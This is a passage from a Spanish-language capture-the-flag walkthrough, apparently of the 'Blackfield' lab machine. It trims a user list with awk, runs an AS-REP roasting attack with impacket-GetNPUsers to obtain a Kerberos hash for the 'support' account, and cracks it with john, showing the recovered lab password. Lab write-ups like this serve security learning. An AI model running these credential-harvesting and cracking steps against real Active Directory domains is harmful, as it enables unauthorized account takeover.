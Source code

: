 Lo guardamos y si vemos la estructura estaria mal compuesta para tirarle un ataque, ya que hay lineas a la derecha que sobran, ya que se copio el contenido informativo de los nombres de usuario, por lo que podremos eliminar esa informacion que no queremos de la siguiente forma:

```shell
cat users.txt | awk '{print $1}' > usersUpdate.txt
```

`awk` = Filtrar columnas del archivo de texto

Con esto hacemos que solamente nos aparezca la primera fila, las demas se oculten y que se guarde en un archivo de texto nuevamente.

### Ataque ASREProast

Ahora si podremos efectuar el ataque `ASREProast` para con la lista de usuarios actualizada enumerar cuales son los usuarios que son vulnerables al `kerberos` y a la vez proporcionarnos su hash para posteriormente intentar crackearlo de la siguiente forma:

```shell
impacket-GetNPUsers BLACKFIELD.local/ -no-pass -usersfile usersUpdate.txt
```

Para saber si el usuario no tiene activada la autenticacion en `kerberos` por lo que seria vulnerable, se puede identificar cuando esta herramienta nos muestra una linea parecida a esto:

```
[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
```

Pero con esto poca cosa podremos hacer, pero si nos muestra otra linea algo parecido a esto:

```
$krb5asrep$23$support$BLACKFIELD.local:<HASH_USER>...
```

Por lo que vemos el usuario llamado `support` no tiene establecida la autenticacion y a parte nos proporciona su hash por lo que es vulnerable a `kerberos` y a `ASREProast`.

Ahora copiaremos esa linea del hash entera desde el `$krb5asrep$23...` hasta el final del hash y lo pegaremos en un archivo llamado `hash`.

```shell
nano hash

#Dentro del nano
$krb5asrep$23$support$BLACKFIELD.local:<HASH_USER>
```

### Crackear hash de ASREProast

```shell
john --wordlist=<WORDLIST> hash
```

Si todo va bien esto nos crackeara el hash y nos mostrara la contraseña en texto plano, algo asi:

```
#00^BlackKnight ($krb5asrep$23$support$BLACKFIELD.local)
```
